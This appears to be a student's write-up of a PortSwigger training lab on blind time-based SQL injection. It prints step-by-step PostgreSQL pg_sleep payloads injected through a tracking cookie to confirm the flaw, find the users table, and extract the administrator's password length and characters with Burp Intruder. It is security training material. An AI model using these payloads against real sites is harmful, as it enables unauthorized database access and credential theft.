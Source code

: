 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/906132fb-aaaa-40a2-8bae-549e655fd736)


## Solution :

query made--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

#### Checking that it is vulnerable to blind sql injection  -

query changed--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || pg_sleep(10)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a7e55875-624d-40cb-90b4-3ca17314936b)

Time delay of `20717`. SO it is vulnerable to blind sql injection.

#### Confirm that user table  present in the database-

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(-1)END)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/678c0f24-fda6-40a5-a46a-60009b68ba05)

Time delay of `15990`.so it is valid query so now we can find whether user table  present in the database or not.here we used the negtive number `-1` because when it is false it won't cause any delay.

when i changed the value from `1=1` to `1=0` it should not cause any dealy lets check if it coming correct or not.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'' || (SELECT CASE WHEN (1=0) THEN pg_sleep(10) ELSE pg_sleep(-1)END)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/6570c398-8a56-495b-babe-c345920f734c)

Time delay of `725` which is very much less 10 sec and it didn't cause any delay.So it is valid query so now we can find whether user table  present in the database or not.

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0883964a-228a-4954-a7ec-ed0777a7973d)

Time delay of `12559`.which is larger than 10 sec so now we know user table  present in the database.

#### finding the length of the password--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```
![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/50b23f29-6c26-4305-b909-b878d2861c94)

Time delay of `10719`.which is larger than 10 sec. So condition is true  length of the password is larger than `1`

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>25) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4377c941-63fc-4134-ac0e-7ead36eba660)

Time delay of `725` which is less 10 sec. So condition is false  length of the password is smaller than `25`

```To find the length of the password send qury to  Intruder then and Add the password length part as payload and select attack type as SNIPER .Then go to  payload sleect payload type as numbers after that set from 1 to 25 and start the attack ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>$1$) THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4829c5e2-08cf-478a-8ee1-75f04dc10515)

`we also remove the default resource pool because it mess up with my time based sql injection code by adding create new resource pool and  tick the maximum concentration requests and set it as 1 and start attack.`

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/dd630b58-8799-4026-88e8-d80c852a0f10)

`After completing the attack go to coloum then click on response received`.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/69105943-3741-46f4-8db4-c82c963c8d82)

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/1f46ac1b-5841-4e3c-b826-29df928c0ca5)

From 20 onwards the Time delay is less than 10.So we can say that the length of the password is `20`

#### finding the password--

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a')  THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/29c51a3a-d7df-458e-afb4-c3c2dc21d484)

Time delay of `729` which is less 10 sec. So condition is false which means that a is not the first charactor of the password.

```To find the password send qury to  Intruder then and Add postion of password as payload1 and the string part as payload2 and select attack type as cluster bomb .Then go to  payload select payload1 type as numbers and set to 1 to 20 and select payload2 as  bruteforce set min and max =1  and also remove the default resource pool because it mess up with my time based sql injection code by adding create new resource pool and  tick the maximum concentration requests and set it as 1 and start attack. ```

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>''|| (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,$1$,1)='$a$')  THEN pg_sleep(10) ELSE pg_sleep(-1)END FROM users)--
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/cb0dc217-0dd1-4346-b30c-32d38eb2dd19)

















